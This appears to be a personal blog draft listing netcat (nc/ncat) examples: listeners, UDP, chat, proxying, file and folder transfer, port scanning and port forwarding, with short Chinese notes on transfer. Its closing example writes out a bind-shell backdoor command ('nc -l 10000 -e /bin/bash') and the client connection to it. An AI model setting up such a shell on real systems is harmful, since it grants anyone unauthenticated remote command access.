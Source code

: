 ```yaml
---
title: "Useful nc Examples"
date: 2023-11-21T12:40:52+08:00
draft: true
---
```


1) Basic Connection Establishment
Ncat or nc simplifies the process of creating basic connections between systems. Use the following command to establish a connection between a client and a server:

$ ncat -l port_number

Where:

-l : Bind and listen for incoming connections on the port_number.
For example,

$ nc -l 8080   //Server
$ nc localhost 8080 //Client
This basic example allow server to listen on port 8080 and clients can connect to it.

2) Connect to a Remote System
To connect to a remote system with nc, execute the following command,

$ nc -v IP_address port_number

or

$ nc -v FQDN

Let’s take an example,

$ nc -v 192.168.1.248 80
or 
$ nc -v www.linuxtechi.com 443
Now a connection to server with IP address 192.168.1.248 will be made at port 80 & we can now send instructions to server. Like we can get the complete page content with


GET / HTTP/1.1

or get the page name,

GET / HTTP/1.1

or we can get banner for OS fingerprinting with the following,

HEAD / HTTP/1.1

This will tell what software is being used to run the web Server.

Alternate way to check,

$ echo -e "GET / HTTP/1.1\nHost: 192.168.1.248\n\n" | nc 192.168.1.248 80
3) Connecting to UDP Ports
By default , the nc utility makes connections only to TCP ports. But we can also make connections to UDP ports, for that we can use option ‘u’,

$ ncat -l -u 1234
Now our system will start listening a udp port ‘1234’, we can verify this using below netstat command,

$ netstat -tunlp | grep 1234
udp 0 0 0.0.0.0:1234 0.0.0.0:* 10713/nc
$
netstat-udp-connection-check-linux

Let’s assume we want to send or test UDP port connectivity to a specific remote host, then use the following command,

$ ncat -v -u {host-ip} {udp-port}

$ nc -v -u 192.168.105.150 53
Ncat: Version 7.91 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.105.150:53.
4) NC as chat tool
NC allows for real-time chat between two systems. Start a chat server:

$ ncat -l -p 9090
On remote client machine, run

$ ncat 192.168.1.248 9090
Than start sending messages & they will be displayed on server terminal.

NC-Chat-Server-Linux

5) NC as a proxy
NC can also be used as a proxy with a simple command. Let’s take an example,

$ ncat -l 8080 | ncat 192.168.1.200 80
Now all the connections coming to our server on port 8080 will be automatically redirected to 192.168.1.200 server on port 80. But since we are using a pipe, data can only be transferred & to be able to receive the data back, we need to create a two way pipe. Use the following commands to do so,

$ mkfifo 2way
$ ncat -l 8080 0&lt;2way | ncat 192.168.1.200 80 1&gt;2way

Now you will be able to send & receive data over nc proxy.

6) Transfer Files Using nc
NC can also be used to transfer or copy the files from one system to another, though it is not recommended & mostly all systems have ssh/scp installed by default. But none the less if you have come across a system with no ssh/scp, you can also use nc as last ditch effort.

Start with machine on which data is to be received & start nc is listener mode,

$ ncat -l  8080 > file.txt
Now on the machine from where data is to be copied, run the following command,

$ ncat 192.168.1.100 8080 --send-only < data.txt
Here, data.txt is the file that has to be sent. –send-only option will close the connection once the file has been copied. If not using this option, than we will have press ctrl+c to close the connection manually.

We can also copy entire disk partitions using this method, but it should be done with caution.

7) Port Scanning
You can use nc to scan a range of ports on a target system to check for open services. For instance:
```
$ nc -zv <hostname or IP address> <start_port>-<end_port>
```

$ nc -zv 192.168.1.248 80-100   # range
$ nc -zv example.com 443        # Particular port$ nc -zv example.com 80 443     # Multiple Port
8) Port Forwarding
We can also use NC for port forwarding with the help of option ‘c’ , syntax for accomplishing port forwarding is,

$ ncat -u -l  80 -c  'ncat -u -l 8080'
Now all the connections for port 80 will be forwarded to port 8080.

9) Set Connection Timeouts
Listener mode in ncat will continue to run & would have to be terminated manually. But we can configure timeouts with option ‘w’,

$ ncat -w 10 192.168.1.248 8080
This will cause connection to be terminated in 10 seconds, but it can only be used on client side & not on server side.

10) Force Server to Stay Up
When client disconnects from server, after sometime server also stops listening. But we can force server to stay connected & continuing port listening with option ‘k’. Run the following command,

$ ncat -l -k 8080
Now server will stay up, even if a connection from client is broken.

Additional Example

Remote Command Execution via nc
NC command can also be used to create backdoor to your systems & this technique is actually used by hackers a lot. We should know how it works in order to secure our system. To create a backdoor, the command is,

$ nc -l 10000 -e /bin/bash
‘e‘ flag attaches a bash to port 10000. Now a client can connect to port 10000 on server & will have complete access to our system via bash.

$ nc 192.168.1.100 10000

nc 传文件（方法1）

nc -l 9995 >zabbix.rpm
nc 10.0.1.162 9995 < zabbix-release-2.4-1.el6.noarch.rpm

nc 传文件（方法2）
nc -l 9992 &lt;test.mv
nc 10.0.1.162 9992 &gt;test2.mv

nc 传文件夹
管道后面最后必须是 - ，不能是其余自定义的文件名。（-是tar命令的一个选项，表示tar应该读取从标准输入（stdin）传入的数据。）
nc -l 9995 | tar xfvz -
tar cfz - * | nc 10.0.1.162 9995

todo: https://zhuanlan.zhihu.com/p/270185285